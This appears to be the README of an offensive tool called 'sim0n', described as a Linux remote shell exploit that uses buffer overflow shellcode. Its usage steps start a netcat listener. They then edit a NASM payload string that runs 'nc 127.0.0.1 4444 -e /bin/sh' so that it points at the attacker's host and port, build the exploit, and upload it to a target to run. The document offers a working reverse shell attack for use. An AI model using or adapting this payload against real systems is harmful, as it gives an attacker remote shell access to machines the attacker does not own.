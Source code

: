 # sim0n

*Buffer overflow, AAAAAAAAA, Segmentation fault*

Sim0n is a Linux remote shell exploit that exploits memory vulnerabilities via shell code generated with execve system call.

## Usage

**1** Start the listener on your computer

```shell
nc -lvp 4444
```

**2.** Modify this string of payload change it to your host and port

```nasm
cmd: db         "nc 127.0.0.1 4444 -e /bin/sh"
```

**3.** Run `make all`

**4.** Upload `exploit` file to target and execute
